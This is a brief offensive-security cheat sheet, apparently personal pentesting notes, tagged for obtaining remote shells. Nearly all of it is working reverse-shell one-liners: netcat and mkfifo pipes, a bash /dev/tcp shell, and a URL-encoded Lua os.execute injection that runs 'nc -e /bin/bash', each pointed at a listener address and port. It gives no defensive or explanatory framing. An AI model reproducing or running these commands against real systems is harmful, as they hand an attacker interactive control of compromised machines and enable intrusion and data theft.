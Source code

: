 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - SpecificShells
---
```


`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f`

`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
try nc shells 
`os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--`

`nc -c bash xxx xxx`

`mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa`